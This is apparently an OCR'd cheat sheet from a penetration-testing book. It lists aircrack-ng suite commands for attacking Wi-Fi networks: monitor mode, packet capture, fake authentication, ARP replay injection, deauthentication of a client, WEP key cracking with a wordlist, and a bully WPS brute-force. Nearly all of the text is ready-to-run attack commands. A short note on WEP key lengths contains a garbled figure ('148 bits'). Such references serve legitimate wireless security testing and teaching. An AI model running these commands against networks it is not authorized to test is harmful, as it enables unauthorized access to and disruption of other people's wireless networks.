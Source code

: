 # List APs

iwlist wlan0 scan

# Monitor mode

airmon-ng check
airmon-ng check kill
airmon-ng start wlan0

# Capture

airodump-ng mon0 --channel 6
airodump-ng -w book mon0 --channel 6

# Injecting - Fake Auth (-1)

aireplay-ng -1 0 -e linksys -a 00:23:69:F5:B4:2B -h 00:C0:CA:1B:69:AA mon0

# Injecting - ARP Request Replay

aireplay-ng -3 -b 00:23:69:F5:B4:2B -h 00:C0:CA:1B:69:AA mon0

# Injection - De-auth

aireplay-ng -0 1 -a 00:23:69:F5:B4:2B -c 70:56:81:B2:F0:53 mon0

# Cracking

aircrack-ng -b 00:23:69:F5:B4:2B book*.cap

# Cracking with Word list

aircrack-ng -w password.lst -b 00:23:69:F5:B4:2B pentestbook2*.cap

#WEP

* The shared WEP key can be either 64 or 148 bits.
* First 24 bits of the key to add randomness.
* .:. Effective key length really only 40 or 104 bits.

#WSP

bully mon0 -b 00:23:69:F5:B4:2B -e linksys -c 6
